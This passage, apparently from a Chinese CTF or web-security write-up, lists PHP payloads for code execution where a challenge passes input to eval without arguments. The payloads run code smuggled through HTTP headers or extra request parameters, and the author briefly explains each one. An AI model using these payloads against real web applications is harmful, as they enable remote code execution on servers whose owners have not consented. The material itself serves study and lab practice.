 目录下文件

## payload

### payload\_1 getenv()

```bash
var_dump(getenv(phpinfo()));
```

**getenv() 获取一个环境变量的值，phpinfo() 获取全部的环境变量，其实不是很理解，直接 phpinfo() 就好了。**

### payload\_2 getallheaders()

```bash
eval(end(getallheaders()));
```

**end() 将数组的内部指针移到最后一个；**

**getallheaders() 获取所有的 http 请求头；**

[![](assets/1698897208-5e2d23beb1c95d94fa04e5978e95b64e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210325204737-472bea42-8d68-1.png)

这里需要两个`eval`的原因，我认为是，如果只有一个`eval`就只是执行 `end(getallheaders());` 获取了其返回值，但是并没有执行其返回值，再加一个`eval` ，也就是获取了返回值后，再`eval()`。

如果用 bp 打，传最后一个似乎并不行，那么我们可以尝试修改 ua 头，然后用把 end 改成 next；

### payload\_3 get\_defined\_vars()

```bash
eval(end(current(get_defined_vars())));&jiang=phpinfo();
```
